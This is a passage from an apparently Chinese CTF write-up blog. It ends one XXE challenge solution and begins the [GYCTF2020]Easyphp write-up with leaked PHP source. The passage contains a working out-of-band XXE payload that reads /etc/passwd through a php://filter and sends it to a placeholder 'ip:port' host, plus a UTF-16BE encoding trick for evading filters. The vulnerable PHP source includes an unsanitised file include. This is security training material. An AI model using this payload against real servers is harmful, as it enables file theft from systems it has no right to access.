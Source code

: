 evil.dtd

```dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://ip:port/?output=%file;'>">
```

转换为 utf-16be

```bash
printf '%s' '<?xml version="1.0" encoding="UTF-16BE"' > test1.xml
cat test.xml | iconv -f utf-8 -t utf-16be >> test1.xml
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211102043838.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211102044149.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211102044422.png)

另外也能用双重实体编码绕过, 参考 [https://wiki.wgpsec.org/knowledge/ctf/xxe.html](https://wiki.wgpsec.org/knowledge/ctf/xxe.html)

## [GYCTF2020]Easyphp

www.zip 源码泄露

index.php

```php
<?php
require_once "lib.php";

if(isset($_GET['action'])){
	require_once(__DIR__."/".$_GET['action'].".php");
}
else{
	if($_SESSION['login']==1){
		echo "<script>window.location.href='./index.php?action=update'</script>";
	}
	else{
		echo "<script>window.location.href='./index.php?action=login'</script>";
	}
}
?>
```

lib.php

```php
<?php
error_reporting(0);
session_start();
function safe($parm){
    $array= array('union','regexp','load','into','flag','file','insert',"'",'\\',"*","alter");
    return str_replace($array,'hacker',$parm);
}
class User
{
    public $id;
    public $age=null;
    public $nickname=null;
    public function login() {
        if(isset($_POST['username'])&&isset($_POST['password'])){
        $mysqli=new dbCtrl();
        $this->id=$mysqli->login('select id,password from user where username=?');
        if($this->id){
        $_SESSION['id']=$this->id;
```